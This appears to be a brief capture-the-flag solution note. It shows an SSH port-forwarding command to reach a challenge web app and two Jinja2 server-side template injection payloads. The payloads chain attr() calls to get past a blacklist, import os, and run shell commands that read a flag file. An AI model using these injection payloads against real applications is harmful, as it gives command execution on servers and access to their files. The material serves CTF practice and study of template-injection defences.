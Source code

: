 - create an ssh tunnel to the web app `ssh -o IdentitiesOnly=yes -o PreferredAuthentications=password  -L 8080:172.99.0.2:80 ctfplayer@host -p 2222` 

- break the ssti blacklist `{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')(request|attr('args')|attr('get')('flag'))|attr('read')()}}&flag=cat%20flag.txt`
or `{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('cat fl*')|attr('read')()}}`